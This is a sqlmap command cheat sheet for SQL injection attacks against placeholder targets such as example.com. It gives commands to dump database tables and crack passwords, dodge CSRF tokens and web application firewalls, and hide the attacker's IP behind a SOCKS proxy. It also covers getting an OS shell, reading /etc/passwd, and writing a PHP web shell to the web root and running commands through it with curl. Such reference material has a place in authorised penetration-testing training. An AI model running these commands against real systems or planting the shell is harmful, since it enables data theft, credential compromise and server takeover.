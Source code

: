 
## Basic Commands

| **Command**                                                                                   | **Description**                                             |
| --------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                   | View the basic help menu                                    |
| `sqlmap -hh`                                                                                  | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                    | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                   | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                  | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                           | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                            | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                         | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                 | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                         | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                              | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`      | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                 | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`          | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                           | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                   | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                | Password enumeration and cracking                           |

## Advanced Enumeration

### Anti-CSRF Token Bypass

```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
``````

### Unique Value Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

### Calculated Parameter Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

### IP Address Concealing

`--proxy="socks4://177.39.187.70:33283"`

### User Agent Bypass

`--random-agent`
## WAF Evasion

`--skip-waf`

## Tamper Scripts

`sqlmap --list-tampers`

|**Tamper-Script**|**Description**|
|---|---|
|`0eunion`|Replaces instances of UNION with e0UNION|
|`base64encode`|Base64-encodes all characters in a given payload|
|`between`|Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`|
|`commalesslimit`|Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart|
|`equaltolike`|Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart|
|`halfversionedmorekeywords`|Adds (MySQL) versioned comment before each keyword|
|`modsecurityversioned`|Embraces complete query with (MySQL) versioned comment|
|`modsecurityzeroversioned`|Embraces complete query with (MySQL) zero-versioned comment|
|`percentage`|Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)|
|`plus2concat`|Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart|
|`randomcase`|Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)|
|`space2comment`|Replaces space character ( ) with comments `/|
|`space2dash`|Replaces space character ( ) with a dash comment (`--`) followed by a random string and a new line (`\n`)|
|`space2hash`|Replaces (MySQL) instances of space character ( ) with a pound character (`#`) followed by a random string and a new line (`\n`)|
|`space2mssqlblank`|Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters|
|`space2plus`|Replaces space character ( ) with plus (`+`)|
|`space2randomblank`|Replaces space character ( ) with a random blank character from a valid set of alternate characters|
|`symboliclogical`|Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `\|`)|
|`versionedkeywords`|Encloses each non-function keyword with (MySQL) versioned comment|
|`versionedmorekeywords`|Encloses each keyword with (MySQL) versioned comment|

## OS Exploitation

### OS Command Execution
`sqlmap -u "http://www.example.com/?id=1" --os-shell`
`sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E`

### Reading Local Files
`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`

### Writing Local Files

Create file:
```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`
`curl http://www.example.com/shell.php?cmd=ls+-la`


#### example command run on a dbms
`LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`